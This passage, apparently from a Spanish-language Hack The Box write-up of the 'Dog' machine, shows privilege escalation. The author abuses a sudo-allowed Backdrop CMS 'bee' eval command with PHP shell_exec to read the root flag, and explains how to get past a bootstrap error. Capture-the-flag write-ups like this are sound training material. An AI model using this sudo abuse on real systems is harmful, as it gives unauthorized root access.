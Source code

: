 Viendo los comandos de los que dispone, encontramos uno que nos puede permitir ejecutar comandos PHP con privilegios de root.

![alt text](/assets/img/posts/dog_htb_s7/image.pngimage-20.png)

Probé con este comando

```bash
sudo /usr/local/bin/bee eval "echo shell_exec('cat /root/root.txt');"
```

Pero obtenía el siguiente error:

```bash
✘  The required bootstrap level for 'eval' is not ready.
```

El error indica que el entorno de bee no está completamente inicializado (bootstrap level), que puede suceder por varias razones:

- Bootstrap incompleto: bee no ha cargado completamente las dependencias de Backdrop CMS.

- Configuración incorrecta: El archivo de configuración de Backdrop CMS no está accesible o está mal configurado.

Con un poco de búsqueda la solución fue forzar el bootstrap a un nivel más alto de directorio.

```bash
sudo /usr/local/bin/bee --root=/var/www/html eval "echo shell_exec('cat /root/root.txt');"
```

**--root=/var/www/html**: Especifica la ruta raíz de la instalación de Backdrop CMS.

### Root flag

![alt text](/assets/img/posts/dog_htb_s7/image.pngimage-21.png)

